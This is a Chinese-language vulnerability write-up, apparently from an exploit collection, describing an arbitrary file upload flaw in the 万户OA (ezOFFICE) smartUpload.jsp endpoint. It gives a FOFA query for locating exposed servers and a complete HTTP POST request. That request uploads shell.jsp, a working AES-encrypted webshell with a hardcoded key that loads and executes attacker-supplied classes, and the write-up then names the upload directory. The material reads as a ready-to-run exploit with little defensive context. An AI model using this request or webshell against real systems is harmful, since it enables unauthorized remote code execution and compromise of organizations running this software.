



# 万户OA smartUpload.jsp 任意文件上传漏洞

## 漏洞描述

万户OA smartUpload.jsp文件存在文件上传接口，且没有对文件类型进行过滤,导致任意文件上传漏洞

## 漏洞影响

```
万户OA
```

## FOFA

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面


文件上传接口

```
/defaultroot/extension/smartUpload.jsp?path=information&fileName=infoPicName&saveName=infoPicSaveName&tableName=infoPicTable&fileMaxSize=0&
```



可直接上传恶意jsp文件

```
POST /defaultroot/extension/smartUpload.jsp?path=information&mode=add&fileName=infoPicName&saveName=infoPicSaveName&tableName=infoPicTable&fileMaxSize=0&fileMaxNum=0&fileType=gif,jpg,bmp,jsp,png&fileMinWidth=0&fileMinHeight=0&fileMaxWidth=0&fileMaxHeight=0 HTTP/1.1
Host: 
Content-Length: 938
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynNQ8hoU56tfSwBVU
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=PjXnh6bLTzy0ygQf41vWctGPLGkSvkJ6J1yS3ppzJmCvVFQZgm1r!1156443419
Connection: close

------WebKitFormBoundarynNQ8hoU56tfSwBVU
Content-Disposition: form-data; name="photo"; filename="shell.jsp"
Content-Type: application/octet-stream

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
------WebKitFormBoundarynNQ8hoU56tfSwBVU
Content-Disposition: form-data; name="continueUpload"

1
------WebKitFormBoundarynNQ8hoU56tfSwBVU
Content-Disposition: form-data; name="submit"

上传继续
------WebKitFormBoundarynNQ8hoU56tfSwBVU--
```



通过抓包可查看上传的文件名，上传的目录为 `/defaultroot/upload/information/`

